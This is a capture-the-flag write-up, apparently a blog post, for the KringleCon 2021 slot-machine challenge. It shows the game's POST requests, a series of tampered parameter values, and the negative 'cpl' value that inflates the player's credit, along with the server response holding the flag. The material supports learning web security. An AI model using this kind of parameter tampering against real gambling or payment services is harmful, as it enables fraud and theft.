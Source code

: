 ```yaml
---
tags:
  - post
  - kringlecon2021Post
title: Slot Machine Investigation
layout: post.njk
description: >
  A short description of the article
eleventyNavigation:
  key: Post
  title: Slot Machine Investigation
  parent: KringleCon2021Posts
---
```

# Introduction
This challenge is all about exploiting Jacks slotsystem. Everything can be done in browser and I really reccommend using firefox, simply becuase the interface is less confusing.
The description for this challenge is:
*Test the security of Jack Frost's slot machines. What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.* 
So the flag here is what the troll tells you when you reach over 1000 coins.

# Reconnaissance
The webpage for the slotmachines is amusing. It has no fields you can enter data. You can contorl how much you bet and the bet level, other than that you may spin/autospin or check how much each each troll is worth. With no possibility to enter or manipulate the values from the gui, lets check out the inspector tools.
I want to head on over to the networks tools just to check out the requests my computer is sending.
Appart from the header, I see that this is my payload
```
POST
betamount=1&numline=20&cpl=0.1

RESPONSE
{"success":true,"data":{"credit":98,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":0,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon8","icon6","icon2","icon7","icon9","icon10","icon10","icon4","icon2","icon8","icon6","icon6","icon9","icon6","icon10"],"ActiveIcons":[],"ActiveLines":[]},"response":"Keep playing!"},"message":"Spin success"}
```
Ok so a legitmiate request has the betamount, number of lines we want to play with, and a cpl that I have no idea what does.
But the response tells us that the server pulls the following from its own end, the win amount, free spins, if I have won the jackpot and what trolls appear.

# Enumeration
I tried to combine different fields to try to manipulate the server to give me prizes I didn't have, such as:
```
POST
betamount=1&numline=20&cpl=0.1&HasJackpot=TRUE
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my jackpot)

POST
betamount=1&numline=20&cpl=0.1&credits=1000000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my credits)

POST
betamount=1&numline=20&cpl=0.1&WinAmount=10000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my WinAmount)

POST
betamount=10000&numline=20&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=-10&numline=20&cpl=0,1
RESPONSE
404 invalid betamount

POST
betamount=1&numline=200000&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=1&numline=-20&cpl=0,1
RESPONSE
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It gave me nothing)

POST
betamount=1&numline=20&cpl=99999
RESPONSE
404 not enough credits

POST
betamount=1&numline=20&cpl=-100
RESPONSE
200 OK
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_...
```
Hold up, the last request gave us alot of credits, why?

# The vulneralbility
CPL didn't have the same checks as the others, becuase pre spin it doesn't affect our startcredits. I don't know exactly what it does, but it looks like it is always multiplied with the numline value and affects your total credits. 
Anyway, the flag: 
```
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":-3000,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon3","icon9","icon6","icon4","icon2","icon8","icon1","icon2","icon9","icon6","wild","wild","icon3","wild","icon9"],"ActiveIcons":[1,12,13,14],"ActiveLines":[20]},"response":"I'm going to have some bouncer trolls bounce you right out of this casino!"},"message":"Spin success"}
```
**"I'm going to have some bouncer trolls bounce you right out of this casino!"**
